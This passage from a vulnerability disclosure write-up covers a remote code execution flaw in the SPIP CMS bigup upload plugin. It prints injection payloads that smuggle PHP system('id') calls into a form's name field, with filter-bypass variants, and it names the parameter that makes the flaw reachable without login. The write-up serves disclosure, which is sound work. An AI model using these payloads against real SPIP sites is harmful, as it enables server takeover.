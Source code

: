 But in the end he confirmed that he didn't have it in his notes!

If you're curious, this was related to my [teasing tweet](https://x.com/Vozec1/status/1822647021733281895) from a few weeks ago, hashing the proof that I had this exploit at this time, without leaking sensitive information (kindly suggested to do so by Laluka to keep track & proofs).

```php
[~/Desktop]$ echo -ne "name=\"RCE['.system('id').die().']\";" | md5sum
9fd0828be2a9d90e89e226f1fcd6d5d9  -
```

## Additional note:
The vulnerability can also be triggered in the first part of the name parameter:
```php
name="RCE'-system('id')-'[ABCD]"
```

The dot is filtered, but you can use `sprintf` to call the `die` function after the `system` to avoid an error in logs:

```php
name="RCE'-sprintf(system('id'),die())-'[ABCD]"
```

![isok](isok.png)

Hello, Laluka here, I'll take the next part that makes this lovely post-auth RCE pre-auth! 😉

## Making the RCE Pre-Auth

Once Vozec showed me that his issue was related to file upload, and required a form to submit, I had two thoughts:

- First, we might get lucky, maybe the code path is reached with any form?
- Second, if we're unlucky, we'll have to find another path!

So, here's the flow:
- `extraire_fichiers_valides()` from `plugins-dist/bigup/inc/Bigup/Files.php`, called by
  - `gerer_fichiers_postes()` within `plugins-dist/bigup/inc/Bigup.php`, called by
    - `bigup_formulaire_receptionner($flux)` within `plugins-dist/bigup/bigup_pipelines.php`

I stopped there, as the pipelining system behaves in a "global" way, -close to- every pass through it, so let's "assume" we're lucky, and hit right away!

The code only passes through the right code path if a specific parameter is present, so let's add it! (i.e. `bigup_retrouver_fichiers=foo`)

```bash
/**
 * Branchement sur la réception d'un formulaire (avant verifier())
 *
 * On remet `$_FILES` avec les fichiers présents pour ce formulaire,
 * et avant que la fonction verifier native du formulaire soit utilisée,
 * de sorte qu'elle ait accès à $_FILES rempli.
 *
 * @pipeline formulaire_receptionner
 * @param array $flux
 * @return array
 */
function bigup_formulaire_receptionner($flux) {
	if (_request('bigup_retrouver_fichiers')) {
		$bigup = bigup_get_bigup($flux);
		$bigup->gerer_fichiers_postes(); // les fichiers postés sans JS
		$liste = $bigup->reinserer_fichiers(_request('bigup_reinjecter_uniquement'));
		$bigup->surveiller_fichiers($liste);
```